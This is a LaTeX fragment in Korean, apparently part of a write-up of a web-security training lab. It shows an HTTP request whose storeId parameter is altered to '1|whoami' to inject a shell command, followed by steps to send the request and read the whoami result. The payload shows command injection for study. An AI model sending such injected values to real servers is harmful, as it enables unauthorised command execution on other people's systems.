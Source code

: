 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
\begin{lstlisting}[label={lst:original-request},caption={원본 요청 (original request)}]
      productId=1&storeId=1
      \end{lstlisting}

      \begin{lstlisting}[label={lst:modified-request},caption={변동된 요청 (modified request)}]
      ...
      Referer: https://0a4b0031040a0f9c839e4998008f0083.web-security-academy.net/product?productId=1
      Accept-Encoding: gzip, deflate, br
      Priority: u=1, i

      productId=1&storeId=1|whoami
      \end{lstlisting}

      \item 수정된 요청을 서버로 전송
      \item 서버의 응답에서 \texttt{whoami} 명령의 결과 확인
      \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure2.png}
      \caption{whoami 명령의 결과}
      \label{fig:whoami-result}
      \end{figure}
      
    \end{enumerate}
\end{description}

\newpage
\end{document}
